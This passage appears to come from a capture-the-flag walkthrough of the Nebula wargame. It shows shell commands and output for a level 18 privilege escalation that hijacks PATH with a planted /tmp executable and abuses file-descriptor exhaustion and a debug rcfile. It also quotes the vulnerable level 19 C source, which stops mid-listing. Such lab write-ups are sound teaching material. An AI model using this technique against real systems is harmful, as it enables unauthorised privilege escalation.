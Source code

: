 Heavens, it worked - sort of. Notice the _/tmp/flag18/debug: line 1: Starting: command not found_? That's because our _rcfile_ is set to be our debug file. So it writes to the debug file and then the shell will try to execute it. As we know the first line in the file is _Starting up. Verbose level = 1_, so all we really need to do to quash that error we need to create an executable with that name. Inside that we will run out beloved `getflag`

```
level18@nebula:/home/flag18$ echo getflag > /tmp/Starting
level18@nebula:/home/flag18$ chmod +x !$
chmod +x /tmp/Starting
level18@nebula:/home/flag18$ export PATH=${PATH}:/tmp
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 --rcfile -d /tmp/flag18/debug
./flag18: invalid option -- '-'
./flag18: invalid option -- 'r'
./flag18: invalid option -- 'c'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
You have successfully executed getflag on a target account
/tmp/flag18/debug: line 2: syntax error near unexpected token `('
/tmp/flag18/debug: line 2: `logged in successfully (without password file)'
```

The harder ways are beyond what I can do, but for those interested in circumventing FORTIFY_SOURCE you can read [A Eulogy for Formatting Strings](https://phrack.org/issues/67/9.html). I'll be re-reading that for sure.

## Flag 19

> There is a flaw in the below program in how it operates.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
```